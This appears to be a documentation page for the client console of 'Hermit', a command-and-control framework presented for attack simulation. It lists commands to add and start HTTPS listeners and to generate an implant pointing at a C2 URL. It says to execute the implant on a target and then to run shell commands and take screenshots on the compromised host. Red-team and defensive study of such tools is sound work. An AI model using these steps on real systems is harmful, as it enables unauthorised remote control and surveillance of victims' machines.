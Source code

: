 +++
title = "C2 Client"
date = 2024-01-02
[extra]
toc=true
+++

## Run (Connect to the C2 Server)

At first, make sure that [the C2 server](./c2-server) has already started. It's running on the port `9999` by default.  
Now run the `client` command to connect the C2 server.  

```sh
hermit client -H my-c2-server.com -P 9999
```

After connecting, the client console will start.

<br />

## Help

```sh
Hermit $ help
```

<br />

## Listener

### 1. Add New Listener

Hermit currently supports the `HTTPS` listener only.  
You need to specify the domains (`-d`) for HTTPS self-signed certificates.

```sh
Hermit $ listener add -d localhost,my-c2-server.com
```

Once the listener is added successfully, you can see it with the `listeners` (or `listener list`) command.

```sh
Hermit $ listeners
```

### 2. Start Listener

After adding a listener as the previous section, you can start it by the `listener start <ID or Name>` command.

```sh
Hermit $ listener start 1
```

### 3. Stop Listener

```sh
Hermit $ listener stop 1
```

### 4. Delete Listener

Listeners that you don't plan to use can be deleted using the `delete` command.

```sh
Hermit $ listener delete 1
```

<br />

## Implant

### Generate Implant

You can generate implants with `implant gen` command with specifying the listener URL (`-l`) that you've started the previous section. The agent will connect to this listener URL.

```sh
Hermit $ implant gen -l https://my-c2-server.com:4443/
```

After generating, you can see the information by `implants` (or `implant list`) command.

```sh
Hermit $ implants
```

Now you need to transfer this implant to the target computer and execute it.

<br />

## Agent

When the implant is executed, the agent will start and attempt to connect to your C2 server's listener.  
If it succeeds, the agent has been registered in the C2 server. You can check if the agent has been registered correctly with the `agents` (or `agent list`) command.

```sh
Hermit $ agents
```

<br />

### 1. Interact with Agent

To interact with the agent for the attack simulation, you can run the `agent use <ID or Name>` command.

```sh
Hermit $ agent use 1
```

This command switches to the agent mode.

<br />

### 2. Agent Mode: Send Tasks

After entering the agent mode, you can simulate various attack methods e.g. shell command, screenshot, etc. Other commands are currently under development.

- **Shell Command**

```sh
Hermit [agent: agent_0123] $ shell whoami
```

- **Screenshot**

```sh
Hermit [agetn: agent_0123] $ screenshot
```

### 3. Quit Agent Mode

To quit the agent mode and return the home console, run the `exit` command.

```sh
Hermit [agetn: agent_0123] $ exit
```

<br />

## Exit

To quit the client console, run the `exit` command.

```sh
Hermit $ exit
```